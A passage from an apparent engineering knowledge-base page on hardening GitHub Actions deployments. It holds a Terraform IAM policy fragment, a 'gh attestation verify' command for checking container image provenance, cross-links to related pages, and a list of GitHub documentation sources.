  role   = aws_iam_role.gha_app_prod.id
  policy = data.aws_iam_policy_document.deploy.json
}
# Plus an EKS access entry mapping this role to a namespace-scoped Kubernetes RBAC group.
```

```bash
# Verify provenance of the deployed image before/at admission
gh attestation verify "oci://444455556666.dkr.ecr.eu-west-1.amazonaws.com/app@sha256:<digest>" \
  --owner my-org --signer-workflow my-org/app/.github/workflows/ci-cd.yml
```

## Cross-links
- [C5 Deployment](../C-large-scale-architecture/C5-deployment.md) — blue/green, canary, rolling strategies.
- [J6 Toil & release engineering](../J-sre/J6-toil-release-engineering.md) — progressive delivery, DORA metrics.
- [L6 Secrets & supply chain](../L-data-privacy-ai-security/L6-secrets-supply-chain.md) — SLSA, Sigstore, OIDC, secret sprawl.
- [L7 Zero trust & workload identity](../L-data-privacy-ai-security/L7-zero-trust-workload-identity.md)
- [N2 GitLab CI & Jenkins](N2-gitlab-ci-jenkins.md) · [N3 Azure DevOps & AWS CodePipeline](N3-azure-devops-aws-codepipeline.md) · [N4 GitOps](N4-gitops-argocd-flux.md) · [N5 IaC pipelines & policy-as-code](N5-iac-pipelines-policy-as-code.md) · [N6 IDPs](N6-internal-developer-platforms.md)

## Sources
- https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions
- https://docs.github.com/en/actions/reference/security/secure-use
- https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/configuring-openid-connect-in-amazon-web-services
- https://docs.github.com/en/actions/how-tos/secure-your-work/security-harden-deployments/oidc-in-azure
- https://docs.github.com/en/actions/reference/workflows-and-actions/reusable-workflows
- https://docs.github.com/en/actions/using-workflows/reusing-workflows
- https://docs.github.com/en/actions/hosting-your-own-runners/managing-self-hosted-runners-with-actions-runner-controller/about-actions-runner-controller
- https://docs.github.com/en/actions/reference/workflows-and-actions/dependency-caching
- https://docs.github.com/en/actions/concepts/security/artifact-attestations
- https://docs.github.com/en/actions/reference/workflows-and-actions/deployments-and-environments
- https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax
- https://docs.github.com/en/actions/reference/limits
- https://docs.github.com/en/actions/concepts/runners/larger-runners
- https://docs.github.com/en/organizations/managing-organization-settings/about-azure-private-networking-for-github-hosted-runners-in-your-organization
- https://docs.github.com/en/repositories/configuring-branches-and-merges-in-your-repository/configuring-pull-request-merges/managing-a-merge-queue
- https://docs.github.com/en/billing/concepts/product-billing/github-actions
- https://github.com/advisories/GHSA-mrrh-fwg8-r2c3 (CVE-2025-30066)
